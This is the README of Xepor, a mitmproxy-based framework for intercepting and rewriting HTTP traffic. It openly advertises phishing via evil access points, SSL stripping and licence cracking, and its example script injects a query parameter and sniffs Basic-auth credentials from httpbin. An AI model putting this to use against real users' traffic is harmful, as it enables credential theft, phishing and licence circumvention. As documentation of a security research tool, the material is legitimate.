 [![Python package](https://github.com/xepor/xepor/actions/workflows/python-package.yml/badge.svg)](https://github.com/xepor/xepor/actions/workflows/python-package.yml)
[![PyPI-Server](https://img.shields.io/pypi/v/xepor.svg)](https://pypi.org/project/xepor/)
![PyPI - Status](https://img.shields.io/pypi/status/xepor)
[![Documentation Status](https://readthedocs.org/projects/xepor/badge/?version=latest)](https://xepor.readthedocs.io/en/latest/?badge=latest)
[![Project generated with PyScaffold](https://img.shields.io/badge/-PyScaffold-005CA0?logo=pyscaffold)](https://pyscaffold.org/)
[![996.icu](https://img.shields.io/badge/link-996.icu-red.svg)](https://996.icu)

# Xepor

[Xepor](https://github.com/xepor/xepor) (pronounced */ˈzɛfə/*, zephyr), a web routing framework for reverse engineers and security researchers.
It provides a Flask-like API for hackers to intercept and modify HTTP request and/or HTTP response in a human-friendly coding style.

This project is meant to be used with [mitmproxy](https://github.com/mitmproxy/mitmproxy/). User write scripts with `xepor`, and run the script *inside* mitmproxy with `mitmproxy -s your-script.py`.

If you want to step from PoC to production, from demo(e.g. [http-reply-from-proxy.py](https://github.com/mitmproxy/mitmproxy/blob/v7.0.4/examples/addons/http-reply-from-proxy.py), [http-trailers.py](https://github.com/mitmproxy/mitmproxy/blob/v7.0.4/examples/addons/http-trailers.py), [http-stream-modify.py](https://github.com/mitmproxy/mitmproxy/blob/v7.0.4/examples/addons/http-stream-modify.py)) to something you could take out with your WiFi Pineapple, then Xepor is for you!

## Features

1. Code everything with `@api.route()`, just like Flask! Write everything in *one* script and no `if..else` any more.
2. Handle multiple URL routes, even multiple hosts in one `InterceptedAPI` instance.
3. For each route, you can choose to modify the request *before* connecting to server (or even return a fake response without connection to upstream), or modify the response *before* forwarding to user.
4. Blacklist mode or whitelist mode. Only allow URL endpoints defined in scripts to connect to upstream, blocking everything else (in specific domain) with HTTP 404. Suitable for transparent proxying.
5. Human readable URL path definition and matching powered by [parse](https://pypi.org/project/parse/)
6. Host remapping. define rules to redirect to genuine upstream from your fake hosts. Regex matching is supported. **Best for SSL stripping and server side license cracking**!
7. Plus all the bests from [mitmproxy](https://github.com/mitmproxy/mitmproxy/)! **ALL** operation modes ( `mitmproxy` / `mitmweb` + `regular` / `transparent`  / `socks5` / `reverse:SPEC` / `upstream:SPEC`) are fully supported.

## Use Case

1. Evil AP and phishing through MITM.
2. Sniffing traffic from specific device by iptables + transparent proxy, modify the payload with xepor on the fly.
3. Cracking cloud based software license. See [examples/krisp/](https://github.com/xepor/xepor-examples/tree/main/krisp/) as an example.
4. Write complicated web crawler in **\~100 lines of codes**. See [examples/polyv_scrapper/](https://github.com/xepor/xepor-examples/tree/main/polyv_scrapper/) as an example.
5. ... and many more.

SSL stripping is NOT provided by this project.

# Quick start

Take the script from [examples/httpbin](https://github.com/xepor/xepor-examples/tree/main/httpbin/) as an example.

```bash
mitmweb --web-host=\* --set connection_strategy=lazy -s example/httpbin/httpbin.py
```

In this example, we setup the mitmproxy server on `127.0.0.1`. You could change it to any IP on your machine or alternatively to the IP of your VPS. The mitmproxy server running in reverse, upstream and transparent mode requires `--set connection_strategy=lazy` option to be set so that Xepor could function correctly. I recommand this option always be on for best stability.

Set your Browser HTTP Proxy to `http://127.0.0.1:8080`, and access web interface at http://127.0.0.1:8081/.

Send a GET request from http://httpbin.org/#/HTTP_Methods/get_get , Then you could see the modification made by Xepor in mitmweb interface, browser devtools or Wireshark.

The `httpbin.py` do two things.

1. When user access http://httpbin.org/get, inject a query string parameter `payload=evil_param` inside HTTP request.
2. When user access http://httpbin.org/basic-auth/xx/xx/ (we just pretends we don't know the password), sniff `Authorization` headers from HTTP requests and print the password to the attacker.

Just what mitmproxy always do, but with code written in [*xepor*](https://github.com/xepor/xepor) way.

```python
# https://github.com/xepor/xepor-examples/tree/main/httpbin/httpbin.py
from mitmproxy.http import HTTPFlow
from xepor import InterceptedAPI, RouteType


HOST_HTTPBIN = "httpbin.org"

api = InterceptedAPI(HOST_HTTPBIN)


@api.route("/get")
def change_your_request(flow: HTTPFlow):
    """
    Modify URL query param.
    Test at:
    http://httpbin.org/#/HTTP_Methods/get_get
    """
    flow.request.query["payload"] = "evil_param"


@api.route("/basic-auth/{usr}/{pwd}", reqtype=RouteType.RESPONSE)
def capture_auth(flow: HTTPFlow, usr=None, pwd=None):
    """
    Sniffing password.
    Test at:
    http://httpbin.org/#/Auth/get_basic_auth__user___passwd_
    """
    print(
        f"auth @ {usr} + {pwd}:",
        f"Captured {'successful' if flow.response.status_code < 300 else 'unsuccessful'} login:",
        flow.request.headers.get("Authorization", ""),
    )


addons = [api]
```

